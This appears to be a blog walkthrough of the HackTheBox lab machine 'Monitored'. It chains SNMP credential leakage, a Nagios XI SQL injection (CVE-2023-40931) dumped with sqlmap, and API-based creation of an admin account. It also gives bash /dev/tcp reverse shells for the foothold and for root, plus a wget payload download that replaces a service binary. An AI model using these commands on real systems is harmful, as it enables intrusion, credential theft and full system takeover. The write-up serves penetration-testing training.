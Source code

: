 ```yaml
---
title: "CTF: Monitored (HtB, Linux, Medium)"
excerpt: "A detailed walkthrough of \"Monitored\" machine on HackTheBox."
tagline: ""
header:
  teaser: /docs/assets/images/teasers/ctf/monitored.png
  og_image: /docs/assets/images/teasers/ctf/monitored.png
  overlay_image: /docs/assets/images/teasers/ctf/monitored2.png
author_profile: false
share: true
tags:
  - HackTheBox
  - Linux
  - Difficulty-Medium
  - Nagios XI
  - SQLi
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Monitored" machine on HackTheBox platform that is based on Linux operating system and categorized as "Medium"
by difficulty. The machine has Nagios XI software running on it and involves utilizing a vulnerability chain (including SQL Injection) to establish a foothold on the system. Privilege escalation requires abusing sudo permissions on system scripts.

## Reconnaissance

The reconnaissance part is **extremely** important on this machine and unforgiving to mistakes.
The default **nmap** scan reveals the following services:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

The services of our interest here are http, https and ldap. Attempting to dump credentials from LDAP using anonymous login leads to no result:

```bash
nmap -n -sV --script "ldap*" <IP> -p 389
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/ldapdump.png" alt="">
  <figcaption></figcaption>
</figure>

Here comes the important part, missing which can cause the challenger to enter a rabbit hole. It's necessary to run a UDP scan as there's **SNMP** service running on port 161 UDP. From that service, it's possible to dump SNMP process list. One of the processes will contain **credentials** required to authenticate in Nagios.

The following nmap scan reveals the credentials:

```bash
nmap -sU -sC -sV -T4 <IP> #-sU - UDP Scan; -sC - run default scripts, -sV - enumerate service version, -T4 - scan speed
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/snmpcreds.png" alt="">
  <figcaption></figcaption>
</figure>

Navigate to *https://monitored.htb*. You will be presented with the following login page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nagiosinitialpage.png" alt="">
  <figcaption></figcaption>
</figure>

It is not possible to login with the discovered credentials there, however, they can be used at Nagios system dashboard located at *https://monitored.htb/nagios/*. Navigate there and enter the credentials in the pop-up window. Successful authentication should present the following page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nagioscorelogin.png" alt="">
  <figcaption></figcaption>
</figure>

### CVE-2023-40931

We have achieved authenticated access to Nagios. The time has come for an exhausting vulnerability research. Eventually, it will lead the challenger to this [article](https://outpost24.com/blog/nagios-xi-vulnerabilities/) on Outpost24. It reveals information about CVE-2023-40931 - "SQL Injection in Banner acknowledging endpoint". When a user acknowledges a banner, a POST request is sent to */nagiosxi/admin/banner_message-ajaxhelper.php* with the POST data consisting of the intended action and message ID – *action=acknowledge banner message&id=3*.

The ID parameter is assumed to be trusted but comes directly from the client without sanitization. This leads to a SQL Injection where an authenticated user with low or no privileges can retrieve sensitive data, such as from the *xi_session* and *xi_users* table containing data such as emails, usernames, hashed passwords, API tokens, and backend tickets. This vulnerability does not require the existence of a valid announcement banner ID, meaning it can be exploited by an attacker at any time.

## Weaponization / Exploitation

Firstly, it is necessary to request authentication token for our current user. According to this [thread](https://support.nagios.com/forum/viewtopic.php?p=310411#p310411) on Nagios support forum, it can be done by issuing the following command:

```bash
curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=<USERNAME>&password=<PASSWORD>&valid_min=500'
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/authtoken.png" alt="">
  <figcaption></figcaption>
</figure>

Now that the tokes has been received, let's attempt to dump *xi_users* table with **sqlmap**:

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<YOUR TOKEN>" --level 5 --risk 3 -p id --batch -D nagiosxi -T xi_users --dump
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/adminapi.png" alt="">
  <figcaption>sqlmap dump reveals admin API token</figcaption>
</figure>

*xi_users* table cotains Nagios Administrator account API token that can be used to query Nagios API to create a new user with administrative privileges as described on the following [page](https://support.nagios.com/forum/viewtopic.php?p=310411#p310411) on Nagios support forum. The command do to so is the following:

```bash
curl -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=<ADMIN API KEY>&pretty=1" -d "username=<DESIRED USERNAME>&password=<DESIRED PASSWORD>&name=adminlol&email=adminlol@localhost&auth_level=admin"
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/createnewadmin.png" alt="">
  <figcaption></figcaption>
</figure>

Navigate to *https://nagios.monitored.htb/nagiosxi/* and login with your newly created account. After accepting license agreement and password change form, the challenger is presented with Nagios administrative dashboard.

## Foothold

Navigate to Configure => Core Config Manager => Commands => Add New

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/coreconfig.png" alt="">
  <figcaption></figcaption>
</figure>

Create a reverse shell command with the following parameters:
* Command type: check
* Check "Active" box
* Enter the reverse shell command in the "Command view" field and click save.
```bash
bash -c 'bash -i >& /dev/tcp/<YOUR IP>/<YOUR PORT> 0>&1'
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/shellcommand.png" alt="">
  <figcaption></figcaption>
</figure>


Start a Netcat reverse listener:

```bash
nc -lvnp <PORT SPECIFIED IN REVERSE SHELL COMMAND>
```

In Nagios, navigate to Monitoring => Hosts => localhost. In the Host Managment menu, select the created reverse shell command and click "Run Check Command" as shown on the screenshot:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/runshellcommand.png" alt="">
  <figcaption></figcaption>
</figure>

A reverse shell should be sent to Netcat listener, providing you with a foothold into the system.

### User flag

Find nagios user flag in its home directory.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/userflag.png" alt="">
  <figcaption></figcaption>
</figure>

## Privilege escalation

Check what the current user is able to run with administrative privileges:

```bash
sudo -l
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/sudoloutput.png" alt="">
  <figcaption></figcaption>
</figure>

Among the scripts that appear there is **manage_services.sh**. Display its contents:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/scriptcontents.png" alt="">
  <figcaption></figcaption>
</figure>

It is evident that by executing **manage_services.sh** the user is able to control several services that include **npcd** service. Display the contents of **npcd** service to analyze it:

```bash
systemctl cat npcd
```
The service indicates location of its binary file available by the following path */usr/local/nagios/bin/npcd*. Check permissions on the file:
```bash
ls -l /usr/local/nagios/bin/npcd
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/catnpcdservice.png" alt="">
  <figcaption></figcaption>
</figure>

The current user has write permissions on the **npcd** binary. It is possible to replace contents of the file and execute it with system privileges. On your local machine, create a file called **npcd** with the following contents:

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP ADDR>/<PORT> 0>&1
```
Open a Netcat listener on the port of your choice. Then, start a Python HTTP server to host your npcd file. On the target system, download it, stop **npcd** service and replace the original **npcd** file located in **/usr/local/nagios/bin/** with the created one:

```bash
# On the Attacker machine:
nc -lnvp <PORT>
python3 -m http.server <PORT> # start HTTP server in the directory where npcd file is located

# On the target machine:
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd # Stop npcd service to be able to replace the binary
wget http://<IP ADDR>:<PORT>/npcd # Download npcd file from HTTP server
mv npcd /usr/local/nagios/bin/  # Move the downloaded file into target directory, replacing the original file
chmod +x /usr/local/nagios/bin/npcd # Assign executable permissions to the file
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd # Start npcd service to receive root shell
```
### Root flag

After transferring **npcd** file containing reverse shell command and replacing the original file with it, start **npcd** service again and, if instructions were completed correctly, the Attacker machine will receive a callback with root privileges. Navigate to */root* directory to get the root flag.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/root.png" alt="">
  <figcaption></figcaption>
</figure>

**Thank you for your attention and happy hacking!**
{: .notice--primary}
